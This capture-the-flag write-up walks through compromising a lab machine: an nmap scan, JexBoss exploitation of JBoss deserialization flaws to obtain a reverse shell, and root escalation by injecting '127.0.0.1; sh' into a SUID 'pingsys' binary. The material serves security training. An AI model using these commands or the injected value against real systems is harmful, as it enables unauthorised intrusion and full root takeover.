

| Difficulty |  |  IP Address   |  |
| :--------: |--| :-----------: |--|
|   Medium   |  |  10.10.129.18 |  |

---

### [ Set Up ]

The room tells us to add `jacobtheboss.box` to our /etc/hosts file:



---

### [ user.txt ]

Let's begin with a full nmap scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 -p- 10.10.129.18
```

**Results:**

```
PORT      STATE SERVICE      REASON         VERSION
22/tcp    open  ssh          syn-ack ttl 61 OpenSSH 7.4 (protocol 2.0)
[REDACTED]
80/tcp    open  http         syn-ack ttl 61 Apache httpd 2.4.6 ((CentOS) PHP/7.3.20)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.20
|_http-title: My first blog
111/tcp   open  rpcbind      syn-ack ttl 61 2-4 (RPC #100000)
[REDACTED]
1090/tcp  open  java-rmi     syn-ack ttl 61 Java RMI
|_rmi-dumpregistry: ERROR: Script execution failed (use -d to debug)
1098/tcp  open  java-rmi     syn-ack ttl 61 Java RMI
1099/tcp  open  java-object  syn-ack ttl 61 Java Object Serialization
[REDACTED]
3306/tcp  open  mysql        syn-ack ttl 61 MariaDB (unauthorized)
3873/tcp  open  java-object  syn-ack ttl 61 Java Object Serialization
4444/tcp  open  java-rmi     syn-ack ttl 61 Java RMI
4445/tcp  open  java-object  syn-ack ttl 61 Java Object Serialization
4446/tcp  open  java-object  syn-ack ttl 61 Java Object Serialization
4457/tcp  open  tandem-print syn-ack ttl 61 Sharp printer tandem printing
4712/tcp  open  msdtc        syn-ack ttl 61 Microsoft Distributed Transaction Coordinator (error)
4713/tcp  open  pulseaudio?  syn-ack ttl 61
[REDACTED]
8009/tcp  open  ajp13        syn-ack ttl 61 Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|   Potentially risky methods: PUT DELETE TRACE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp  open  http         syn-ack ttl 61 Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Unknown favicon MD5: 799F70B71314A7508326D1D2F68F7519
| http-methods: 
|   Supported Methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|_  Potentially risky methods: PUT DELETE TRACE
|_http-server-header: Apache-Coyote/1.1
|_http-title: Welcome to JBoss&trade;
8083/tcp  open  http         syn-ack ttl 61 JBoss service httpd
|_http-title: Site doesn't have a title (text/html).
36592/tcp open  java-rmi     syn-ack ttl 61 Java RMI
37259/tcp open  unknown      syn-ack ttl 61
38292/tcp open  landesk-cba? syn-ack ttl 61
```

It looks like there are a whole slew of ports open. What really interests me though, are ports: **22 (SSH)**, **80 (HTTP)**, **8080 (HTTP)** and **8083 (JBOSS)**

Let's first visit `http://jacobtheboss.box`:


We have a blog page powered by Dotclear (https://dotclear.org).

I decided to skip enumerating this website first as there was something else that caught my attention. I noticed that **JBoss** was running on the target machine (port 8083)!

---

*Boss application server is an open-source platform, developed by Red Hat, used for implementing Java applications and a wide variety of other software applications.*

---

From past experiences, I know that certain versions of JBoss are susceptible to **Java deserialization** vulnerabilities. These vulnerabilities allow unauthenticated attackers to achieve remote code execution *(Read more [here](https://www.synopsys.com/blogs/software-security/mitigate-java-deserialization-vulnerability-jboss/))*.

In order for us to exploit these vulnerabilities, we need to have the **Apache Tomcat/Coyote JSP engine** (port 8080) and **JBoss** (port 8083) services running.

Next, I did some research online and found a really nifty tool called [JexBoss](https://github.com/joaomatosf/jexboss). This tool automatically scans for and exploit vulnerabilities in the JBoss application server. Let's use it on our target machine:

```
python jexboss.py -u http://10.10.129.18:8080 
```


We can see that JexBoss has managed to find 3 vulnerabilities with the JBoss server: **web-console**, **jmx-console**, **JMXInvokerServlet**

It asks if we would like to run an automated exploitation via the web-console.

Upon doing so, it will automatically try to set up a reverse shell for us:


Fortunately, the exploit worked and our reverse shell was successfully opened:


Now that we're in, we can obtain **user.txt** from jacob's home directory:


---

### [ root.txt ]

Now let's figure out a way to escalate our privileges.

I first looked around the file system but was unable to find any interesting files. There was also only 1 non-root user on the machine (jacob), so we also can't move laterally to other accounts.

Next, I searched for files with their **SUID-bit** set:

```
find / -type f -perm /u=s 2>/dev/null
```


I noticed an interesting binary called `pingsys`.

By the name, I assumed that it ran like `ping`. Let's test it out:

```
pingsys 127.0.0.1
```


Yep, it functions exactly like `ping`!

I then used `strings` to analyze this binary in greater detail:


We can see that `pingsys` actually appends the user input (IP address) to the `ping` command directly. 

This is a huge vulnerability as we can exploit this to run other commands on the shell by using `;` as a delimiter. Since `pingsys` is run as root, our commands run will also be privileged.

We'll run `pingsys` like such:

``` 
pingsys '127.0.0.1; sh'
```

Now during execution, `pingsys` will append our input to `ping`, resulting in the following command being run on the shell:

```
ping -c 4 127.0.0.1; sh
```

Because of the delimiter `;`, after `ping` has finished running, the second command `sh` will be run, which will open a shell as root:


We've successfully escalated our privileges! 

We can now obtain **root.txt** from /root:


